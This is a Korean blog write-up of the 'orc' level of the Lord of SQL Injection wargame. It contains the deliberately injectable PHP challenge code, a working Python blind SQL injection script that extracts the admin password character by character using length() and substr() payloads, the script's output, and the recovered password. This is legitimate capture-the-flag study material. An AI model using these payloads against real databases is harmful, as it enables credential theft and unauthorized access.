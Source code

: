 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orc 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


하루에 한 문제씩 `los` 문제를 풀어보는 중이다.  

다음 문제의 이름은 `orc`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw=''
-------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에는 문제를 풀기 위해 아래의 조건문을 통과해야 한다.  

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

입력 한 `pw`의 값과 데이터베이스에 저장되어 있는 `pw`의 값이 같아야 한다.  

즉, 정확한 `pw`의 값을 입력해야 문제를 풀 수 있다.  

이 문제는 `Blind SQL Injection`으로 해결했다.  

`Blind SQL Injection`은 쿼리 결과 에 따른 서버의 참과 거짓 반응을 통해 공격을 수행한다.  

이에 대해 이 전 블로그에 적어둔게 있는데, 지금은 옮기기 귀찮아서 나중에 시간이 될 때 옮겨오려 한다.  

문제를 풀기 위해 구현한 `exploit` 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

먼저 `pw`의 길이를 알아내기 위해, `length()` 함수를 사용했다.  

이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and length(pw)=0#'
```

만약 pw의 길이가 `str(i)`의 값과 같을 경우 데이터베이스에서는 `id='admin' and length(pw)=0`의 두 조건이 모두 참이므로 `admin`의 행이 추출되어 `Hello admin`이 출력될 것이다.  

길이를 찾은 다음에는 해당 길이만큼 반복문을 수행 해 `pw`를 한 글자 씩 찾았다.  

`substr()`을 사용했는데, 이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and substr(pw, 0, 1)='0'
```

이 때도 만약 pw의 `str(j)`번 째 문자가 `chr(i)`의 값과 같을 경우 `id='admin' and substr(pw, 0, 1)='0'`의 모든 조건이 참이 되어 `admin`의 행이 추출된다.  

따라서 `Hello admin`이 출력된다.  

이 exploit 코드를 실행시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 09
[+] Found 3 : 095
[+] Found 4 : 095A
[+] Found 5 : 095A9
[+] Found 6 : 095A98
[+] Found 7 : 095A985
[+] Found 8 : 095A9852
[+] Found password :  095A9852
[+] End
```

그런데, `095A9852`를 입력해도 `Hello admin`은 출력되지만 문제는 풀리지 않았다.  

생각해보니 `MySQL`에서는 대소문자를 구분하지 않아 만약 `a`와 `A`를 비교해도 참을 반환한다는 것이 생각났다.  

그래서 대문자를 소문자로 바꾸어 다시 인증했더니 문제가 풀렸다.  

```php
-------------------------------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw='095a9852'
-------------------------------------------------------------------------------------------

Hello admin
ORC Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

`ORC Clear!!`
